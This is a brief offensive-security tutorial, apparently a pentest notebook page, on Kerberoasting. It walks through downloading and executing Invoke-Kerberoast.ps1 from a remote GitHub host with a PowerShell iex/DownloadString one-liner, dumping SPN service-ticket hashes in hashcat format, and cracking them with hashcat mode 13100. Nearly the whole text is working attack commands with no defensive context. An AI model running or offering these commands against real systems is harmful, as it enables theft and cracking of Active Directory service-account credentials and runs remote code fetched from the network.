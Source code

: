 # Get SPN Account Ticket with Invoke-Kerberoast

### Installing Invoke-Kerberoast script

Lets first get the Powershell Invoke-Kerberoast script.

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```



### Loading into Memory

Now lets load this into memory:

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

You should get a SPN ticket.&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>



### Cracking Hash using Hashcat

The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**

```bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
```

